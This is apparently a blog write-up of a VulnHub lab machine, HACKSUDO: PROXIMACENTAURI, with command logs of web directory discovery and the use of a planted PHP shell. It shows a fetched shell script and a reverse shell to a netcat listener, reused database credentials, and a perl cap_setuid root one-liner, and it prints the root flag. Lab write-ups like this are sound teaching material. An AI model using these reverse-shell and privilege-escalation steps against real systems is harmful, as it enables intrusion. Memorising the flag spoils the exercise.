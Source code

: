 ```yaml
---
layout: post
title:  "Vulnhub: HACKSUDO: PROXIMACENTAURI"
date:   2021-06-18 21:30:00 +1000
category: hacking
---
```


## HACKSUDO: PROXIMACENTAURI
This is [HACKSUDO: PROXIMACENTAURI](https://www.vulnhub.com/entry/hacksudo-proximacentauri,709/) from VulnHub. 

>Box created by hacksudo team members vishal Waghmare , Soham Deshmukh This box should be easy to medium . This machine was created for the InfoSec Prep Discord Server (https://discord.gg/tsEQqDJh) and Website (https://hacksudo.com)

Let's go.

## Ports
HTTP only. Well, I guess we won't waste much time eh?

## HTTP
```
┌──(root💀kali)-[/opt/vulnhub/proxmicenturi]
└─# feroxbuster -u http://192.168.1.242 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

This gets quite a few things, but the interesting one we find is at http://192.168.1.242/data/trash/files/:

{% highlight html %}
[PARENTDIR]	Parent Directory	 	- 	 
[ ]	shell.phar	2021-06-04 23:43 	17K
{% endhighlight %}

Wait, what?

>http://192.168.1.242/data/trash/files/shell.phar

Yep, the box has a shell on it for us. I use it to upload a shell of my own and get a reverse shell. Erm, yeah.

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/proxmicenturi]
└─# updog        
[+] Serving /opt/vulnhub/proxmicenturi...
 * Running on http://0.0.0.0:9090/ (Press CTRL+C to quit)
192.168.1.242 - - [18/Jun/2021 07:49:49] "GET /shell.sh HTTP/1.1" 200 -
^C
[!] Exiting!
                                                                                                                                                                            
┌──(root💀kali)-[/opt/vulnhub/proxmicenturi]
└─# nc -nvlp 1234                                                                                                                                                       1 ⨯
listening on [any] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.242] 38168
bash: cannot set terminal process group (542): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ProximaCentauri:/dev/shm$ python3 -c 'import pty;pty.spawn("/bin/bash");'
<hm$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@ProximaCentauri:/dev/shm$ sudo -l
sudo -l
bash: sudo: command not found
{% endhighlight %}

The rest is just enumeration.

## Proxima
{% highlight shell %}
www-data@ProximaCentauri:/usr/lib/systemd/system$ file /var/backups/mysql.bak
file /var/backups/mysql.bak
/var/backups/mysql.bak: PHP script, ASCII text
www-data@ProximaCentauri:/usr/lib/systemd/system$ cat /var/backups/mysql.bak
cat /var/backups/mysql.bak
<?php
/**
 * The base configuration for WordPress
# snip
{% endhighlight %}

There's no wordpress on this box though? There are creds:

{% highlight shell %}
/** MySQL database username */
define( 'DB_USER', 'alfauser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'passw0rd' );
{% endhighlight %}

Better try it:

{% highlight shell %}
www-data@ProximaCentauri:/usr/lib/systemd/system$ mysql -u alfauser -p
mysql -u alfauser -p
Enter password: passw0rd

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 39
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| proximacentauri    |
+--------------------+
4 rows in set (0.003 sec)

MariaDB [(none)]> use proximacentauri
use proximacentauri
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [proximacentauri]> show tables;
show tables;
+---------------------------+
| Tables_in_proximacentauri |
+---------------------------+
| authors                   |
+---------------------------+
1 row in set (0.000 sec)

MariaDB [proximacentauri]> select * from authors;
select * from authors;
+------+---------+-----------------+---------------------+
| id   | name    | password        | email               |
+------+---------+-----------------+---------------------+
|    1 | proxima | alfacentauri123 | vishal@hacksudo.com |
+------+---------+-----------------+---------------------+
1 row in set (0.000 sec)

MariaDB [proximacentauri]> quit
quit
Bye
{% endhighlight %}

Does this work?

{% highlight shell %}
www-data@ProximaCentauri:/usr/lib/systemd/system$ su proxima
su proxima
Password: alfacentauri123

proxima@ProximaCentauri:/usr/lib/systemd/system$ sudo -l
sudo -l
bash: sudo: command not found
{% endhighlight %}

Linpeas gives us this:

{% highlight shell %}
Files with capabilities (limited to 50):
/home/proxima/proximaCentauriA/perl = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
{% endhighlight %}

And we use it:

{% highlight shell %}
proxima@ProximaCentauri:~/proximaCentauriA$ ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
<OSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id;hostname;date
id;hostname;date
uid=0(root) gid=1001(proxima) groups=1001(proxima)
ProximaCentauri
Fri 18 Jun 2021 08:35:00 AM EDT
# cat /root/root.txt
cat /root/root.txt
proxima centauri -----> 
                                            ,:
                                          ,' |
                                         /   :
                                      --'   /
                                      \/ /:/
                                      / ://_\
                                   __/   /
                                   )'-. /
                                   ./  :\
                                    /.' '
                                  '/'
                                  +
                                 '
                               `.
                           .-"-
                          (    |
                       . .-'  '.
                      ( (.   )8:
                  .'    / (_  )
                   _. :(.   )8P  `
               .  (  `-' (  `.   .
                .  :  (   .a8a)
               /_`( "a `a. )"'
           (  (/  .  ' )=='
          (   (    )  .8"   +
            (`'8a.( _(   (
         ..-. `8P    ) `  )  +
       -'   (      -ab:  )
     '    _  `    (8P"Ya
   _(    (    )b  -`.  ) +
  ( 8)  ( _.aP" _a   \( \   *
+  )/    (8P   (88    )  )
   (a:f   "     `"`
you rooted this server
root flag{e2798af12a7a0f4f70b4d69efbc25f4d}
# 
{% endhighlight %}

And it's bedtime.
